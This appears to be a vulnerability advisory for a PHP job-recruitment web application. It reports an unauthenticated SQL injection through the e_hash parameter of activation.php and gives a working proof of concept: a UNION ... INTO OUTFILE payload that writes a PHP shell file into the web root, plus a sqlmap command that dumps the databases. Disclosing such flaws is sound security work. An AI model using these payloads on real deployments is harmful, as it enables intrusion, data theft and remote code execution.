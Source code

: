 # Job-recruitment-in-php has write Trojan and sql injection vulnerability via activation.php.

## supplier
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
activation.php
## describe
Through code audit, when there is an unauthorized SQL injection vulnerability in the activation.php of the Job_Recruitment systtem foreground login portal, all the information of the database can be obtained without authorization, and arbitrary commands may be executed.

control parameter: **$e_hash**=$_GET['e_hash']

## code analysis
The **$e_hash** parameters of the activation.php are not filtered and concatenated into the SQL statement for execution. 

![image-20241110153050504](https://github.com/user-attachments/assets/493b8c4c-34ba-456d-86f9-29fc0d201838)

## POC

### RCE

```
http://airecruitmentsystem/activation.php?id=10&e=123456&p=1&e_hash=1' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,'<?php phpinfo();?>' into outfile 'D:/phpstudy_pro/WWW/ai-recruitment-system-master/shell.php'--+
```

The Trojan file is generated shell.php in the root directory of the website, we access the phpinfo.php file through the browser, we can see that 1,2,3,4,5,6,7,8,9,10,11,12,13,14,'<?php phpinfo();?>' are all generated into the file, and the access is resolved

asset the url: shell.php

```
http://airecruitmentsystem/shell.php
```

![image-20241110215052426](https://github.com/user-attachments/assets/b1b6e915-e008-4812-a0e8-f37672bea65f)

### GET DATA

excute the sqlmap command.

```
 python sqlmap.py -u "http://airecruitmentsystem/activation.php?id=10&e=123456&p=1&e_hash=1*" --dbs
```

get dbs: owlphin...

![image-20241110215358910](https://github.com/user-attachments/assets/50bafe8b-d1b6-4060-9706-cb4e65a3168a)

![image-20241110215520563](https://github.com/user-attachments/assets/12c426e5-16f0-43f4-bd62-1d3c505c2148)

**Discover**

西安电子科技大学 李腾，谢亚轩